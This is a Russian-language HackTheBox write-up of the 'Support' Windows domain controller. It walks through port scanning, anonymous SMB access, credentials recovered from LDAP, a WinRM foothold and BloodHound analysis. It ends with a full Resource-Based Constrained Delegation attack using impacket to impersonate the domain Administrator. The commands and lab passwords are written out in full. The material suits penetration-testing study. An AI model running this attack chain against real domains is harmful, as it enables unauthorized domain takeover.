# 🎧 Support

**Вектор:** AD Enumeration ➔ Initial Access ➔ AD Control Path Analysis ➔ Resource-Based Constrained Delegation (RBCD)
*   **OS:** 🖥️ Windows Server 2022
*   **Сложность:** 🟡 Средняя
*   **Инструменты:** 🧰 `nmap` `netexec` `smbclient` `ldapsearch` `evil-winrm` `bloodhound-python` `impacket`
*   **Ключевые навыки:** 📊  Анализ графов управления AD, манипуляция атрибутами объектов через LDAP, эксплуатация Kerberos Delegation.

## 👁️‍🗨️ Сканирование

Пентестить будем с Kali Linux. Это машинка с платформы HackTheBox. Просканируем все порты:

```bash
nmap -sS -Pn -p- 10.129.230.181
```



Ух ты! Порты 88, 389, 636, 5985, 3268. Да перед нами Domain Controller! Давайте подробнее узнаем о версиях и применим дефолтные скрипты:

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49678,49690,49695,49717 -sVC 10.129.230.181
```



## 📡 Поиск чувствительных данных

Кстати, открыт порт 445, давайте попробуем анонимную сессию:

```bash
smbclient -L 10.129.230.181 -N
nxc smb 10.129.230.181 -u "guest" -p "" --shares
```



Чуть не забыли сделать одну важную вещь - добавить имя домена в `/etc/hosts` для маршрутизации. Подключаемся к папке и качаем оттуда интересный по названию файл:

```bash
echo "10.129.230.181 support.htb DC.support.htb" >> /etc/hosts
smbclient //10.129.230.181/support-tools -N
get UserInfo.exe.zip
```



Разархивируем его:

```bash
unzip UserInfo.exe.zip
```



HackTheBox подсказывает, что нужно запустить файл и перехватить аунтификацию в трафике. Хорошо, так и делаем:

```bash
mono UserInfo.exe -v find -first "*"
```





Обычно в поле `info` или описании аккаунта в LDAP администраторы могут оставить пароли или важные заметки. Давайте поищем данные в базе домена:

```bash
ldapsearch -x -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -A 5 "CN=support"
```



Так, видим пользователя `support`, а в поле `info` похоже его пароль.

## 🧨 Первоначальный доступ

Пробуем подключиться:

```bash
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```



Получилось! HackTheBox говорит, что 🚩 флаг на рабочем столе пользователя. Идём туда и забираем:

```bash
cd 
cd Desktop
dir
type user.txt
```



Первый есть. Неплохой плацдарм у нас получился, двигаемся дальше.

## 🗺️ Анализ векторов управления AD

Соберём данные:

```bash
bloodhound-python -d support.htb -u support -p 'Ironside47pleasure40Watchful' -gc DC.support.htb -c All -ns 10.129.230.181
```



Хорошо, теперь объединяем JSON-файлы в архив.

```bash
zip bloodhound_data.zip *.json
```



Отлично, теперь запустим `bloodhound`:

```bash
neo4j start
bloodhound
```



Вбиваем `admin` / `admin` и заходим. В **PATHFINDING** вписываем нашего обычного пользователя `SUPPORT@SUPPORT.HTB`:



Жмакаем ПКМ по нему и открываем раздел **Outbound Object Control**:



Так, что мы видим? Пользователь `support` входит в группу **Shared Support Accounts**, а у любого члена этой группы есть полные права (**GenericAll**) над компьютером контроллера домена. Проведём атаку Resource-Based Constrained Delegation (RBCD).

## 😈 Злоупотребление делегированием Kerberos

Суть в том, чтобы заставить DC доверять компьютеру, который мы сами создадим. Короче, Rubeus вредничает, поэтому давайте через impacket:

```bash
impacket-addcomputer -dc-ip 10.129.230.181 'support.htb/support:Ironside47pleasure40Watchful' -computer-name 'ATTACKER$' -computer-pass '123'
```



Так, новый компьютер создали, теперь настроим доверие:

```bash
impacket-rbcd -dc-ip 10.129.230.181 -action write -delegate-from 'ATTACKER$' -delegate-to 'DC$' 'support.htb/support:Ironside47pleasure40Watchful'
```



Отлично, осталось запросить билет администратора домена:

```bash
impacket-getST -dc-ip 10.129.230.181 -spn 'cifs/DC.support.htb' -impersonate 'Administrator' 'support.htb/ATTACKER$:123'
```



Во, теперь экспортируем билет в память и заходим по билету:

```bash
export KRB5CCNAME=Administrator@cifs_DC.support.htb@SUPPORT.HTB.ccache
impacket-wmiexec -k -no-pass 'support.htb/Administrator@DC.support.htb'
```



Переходим на рабочий стол и забираем 🚩 флаг:

```bash
cd Users/Administrator/Desktop
dir
cat root.txt
```



**Status:** ✅ Machine pwned.

## 📑 [Отчёт](./Report.md)